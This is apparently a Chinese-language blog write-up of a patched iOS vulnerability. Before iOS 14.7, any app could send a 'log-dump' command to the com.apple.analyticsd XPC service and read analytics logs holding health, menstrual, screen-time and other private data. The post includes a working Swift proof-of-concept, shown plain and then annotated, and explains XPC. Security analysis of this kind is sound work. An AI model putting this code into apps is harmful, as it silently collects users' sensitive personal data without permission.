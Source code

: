 * 医疗信息（心率、检测到的心房颤动计数和心律不齐事件）
* 月经周期长度、生理性别和年龄、用户是否记录性活动、宫颈粘液质量等。
* 设备使用信息（不同情况下的设备取货、推送通知计数和用户操作等）
* 所有具有各自 bundle ID 的应用程序的屏幕使用时间信息和会话计数
* 有关设备配件及其制造商、型号、固件版本和用户分配名称的信息
* 应用程序崩溃时带有 bundle ID 和异常代码
* 用户在 Safari 浏览器中查看的网页语言

**漏洞说明**

此漏洞是不需要任何权限，app 就可以获取分析日志，而分析日志是每个系统都会有，肯定会存在敏感的信息。同时，作者表示即使在设置中关闭“共享分析”，所有这些数据仍在收集中。关于这点，小编没有进行验证，有兴趣的朋友可以验证一下。

此漏洞在 iOS 14.7 已经修复，所以，小编在 iOS 14.2 设备上测试，其中有一组名为 `MotionUsageMetrics` 数据：

![iOS-exploit-01.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/36f0f6962f06443593a32d806b201493~tplv-k3u1fbpfcp-watermark.image?)

这个数据应该是每个 app 调用 Motion（陀螺仪）的数据。

**漏洞代码**

漏洞攻击示例源代码：[GitHub](https://github.com/illusionofchaos/ios-analyticsd-pre14.7-exploit)

```swift
func analyticsJson() -> String {
    let connection = xpc_connection_create_mach_service("com.apple.analyticsd", nil, 2)
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_string(xdict, "command", "log-dump")
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    return String(cString: xpc_dictionary_get_string(reply, "log-dump"))
}
```

**XPC**

这里先解析一下 `XPC` ，XPC 是 macOS 和 iOS 当中一种基于 Mach 消息的 IPC (进程间通信) 技术, 它实现了权限隔离, 使得 App Sandbox 更加完备。需要注意的是，在 iOS 上是私有 API。简单来说，就是系统封装了很多 XPC 服务，一个 XPC 提供了进程间通信的服务，所有的 app 都可以访问这个服务。详细 API 功能和说明，可以参考以下链接：

- [XPC | Apple Developer Documentation](https://developer.apple.com/documentation/xpc/)
- [XPC Connections | Apple Developer Documentation](https://developer.apple.com/documentation/xpc/xpc_connections/)
- [XPC · objc.io](https://www.objc.io/issues/14-mac/xpc/)
- [ObjC 中国 - XPC](https://objccn.io/issue-14-4/)


**漏洞分析**

了解了 XPC 基本概念，上面的源代码，大家应该能猜到一些了。就是通过苹果系统的 XPC 服务 `com.apple.analyticsd`，因苹果没有验证权限，导致所有 app 都可以访问这个 XPC 服务。

源代码解读：
```swift
func analyticsJson() -> String {
    // 建议 com.apple.analyticsd 的 XPC 连接
    let connection = xpc_connection_create_mach_service("com.apple.analyticsd", nil, 2)
    // 处理 connection 的各种事件
    xpc_connection_set_event_handler(connection, { _ in })
    // 必须调用 resume 方法来启动
    xpc_connection_resume(connection)
    // 创建一个XPC参数传递字典
    let xdict = xpc_dictionary_create(nil, nil, 0)
    // 键是 command, 值是 log-dump
    xpc_dictionary_set_string(xdict, "command", "log-dump")
    // 发送消息
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    // 读取结果
    return String(cString: xpc_dictionary_get_string(reply, "log-dump"))
}
```